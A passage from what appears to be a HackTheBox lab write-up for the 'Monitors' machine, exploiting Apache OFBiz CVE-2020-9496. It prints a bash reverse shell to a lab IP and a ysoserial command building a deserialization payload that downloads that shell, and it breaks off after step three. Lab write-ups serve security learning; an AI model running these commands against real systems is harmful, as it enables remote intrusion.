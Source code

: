 ![image-20211019204324255](/image/hackthebox/monitors/image-20211019204324255.png)



I googled for Apache OFbiz exploit POC 2020-9496 and a bunch of results came. Since they are all same methods on getting a revese shell, I chose for g33xter's POC. you can follow it on his github profile, [click here](https://github.com/g33xter/CVE-2020-9496).

POC to getting root:

1.  First I have created a bash reverse shell file calling it shell.sh .

   ```bash
   #!/bin/bash
   /bin/bash -i >& /dev/tcp/10.10.14.55/9001 0>&1
   ```

2.  Then I downloaded ysoserial.jar file from official repository. you have [click here](https://github.com/frohoff/ysoserial) to visit their page.

3.  Now I will generate payload to download shell.sh. It will give out very long base64 encoded payload.

   ```bash
   java -jar ysoserial.jar CommonsBeanutils1 "wget 10.10.14.55/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
   ```
